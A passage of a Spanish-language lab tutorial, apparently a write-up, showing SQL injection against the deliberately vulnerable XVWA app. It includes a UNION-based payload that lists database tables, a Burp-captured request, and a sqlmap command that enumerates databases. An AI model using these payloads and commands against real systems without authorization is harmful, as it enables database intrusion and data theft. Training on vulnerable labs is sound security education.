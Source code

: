 Para mayor información de ayuda en sql injection pueden ingresar al siguiente enlace [github de opensec] (https://github.com/Open-Sec/Open-SecTraining/blob/master/SQLi-Recetario.txt)

Como podemos notar, podríamos mostrar el nombre de la base de datos. De manera similar, la siguiente entrada obtendrá la lista de tablas de la base de datos.
```
 1' union select 1,2,3,4,table_name,6,7 from information_schema.tables#
```

La salida se ve de la siguiente manera.

![image](https://user-images.githubusercontent.com/50930193/171911445-1823eaa7-79ac-45f9-a28c-035534504ef5.png)

o bien desde Burpsuite

![image](https://user-images.githubusercontent.com/50930193/171912166-005e09bb-3165-489e-962f-c6c88800f88b.png)


Como habrás notado, la extracción manual de datos usando SQL Injection puede llevar mucho tiempo a veces y puede volverse extremadamente difícil cuando se trata de Blind SQL Injection. Aquí es donde podemos confiar en herramientas automatizadas que pueden acelerar el proceso de explotación. 


### Explotación automatizada usando sqlmap:

Ahora, analicemos cómo podemos usar sqlmap para automatizar la detección y explotación de SQL Injection. 

Interceptomos la información con Burp

![image](https://user-images.githubusercontent.com/50930193/171912538-f36f100c-d581-4605-bfd1-e6172ebc5347.png)
 
```
POST /xvwa/vulnerabilities/sqli/ HTTP/1.1
Host: 192.168.109.208
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://192.168.109.209
Connection: close
Referer: http://192.168.109.209/xvwa/vulnerabilities/sqli/
Upgrade-Insecure-Requests: 1
Cookie: PHPSESSID=5302d42dc8f560a0103a93c791292bf0

item=&search=1
```
Guarde esta solicitud en un archivo. En este caso, se guarda como **sqli.txt** y desde una nueva terminal ejecute lo siguiente.

```
sqlmap -r sqli.txt -p search –dbms=mysql --dbs
```
El comando anterior inicia sqlmap y toma sqli.txt como entrada. Estamos usando -p para especificar que la búsqueda es el lugar donde sqlmap debe inyectar sus cargas útiles. –dbs es el indicador que le dice a sqlmap que obtenga las bases de datos disponibles.
